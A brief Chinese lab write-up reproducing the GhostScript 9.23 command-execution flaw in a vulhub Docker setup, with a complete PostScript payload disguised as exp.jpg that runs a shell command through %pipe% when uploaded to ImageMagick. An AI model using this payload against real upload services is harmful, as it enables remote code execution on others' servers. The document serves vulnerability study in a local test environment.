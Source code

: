 ﻿# GhostScript命令执行

靶机系统：ubuntu 16.04

## 0x01 搭建漏洞环境

漏洞环境（其中包括最新版 GhostScript 9.23、ImageMagick 7.0.8）
`vulhub的/ghostscript/9.23-rce 有这两个环境`

```
cd vulhub/ghostscript/9.23-rce
docker-compose up -d
```

## 0x02 漏洞复现


访问`http://192.168.96.130:8080/`将可以看到一个上传组件。
![](./1.jpg)

构造一个exp.jpg的文件，内容为：
```
%!PS
userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/ok) currentdevice putdeviceprops
```

将改文件上传，将执行命令`touch /tmp/ok`
进入容器查看`docker-compose exec web bash`，可以看到ok文件被创建了：

![](./2.jpg)

成功

## 0x03 参考链接

```
https://github.com/vulhub/vulhub/blob/master/ghostscript/9.23-rce/README.md
https://bbs.ichunqiu.com/thread-44747-1-1.html
````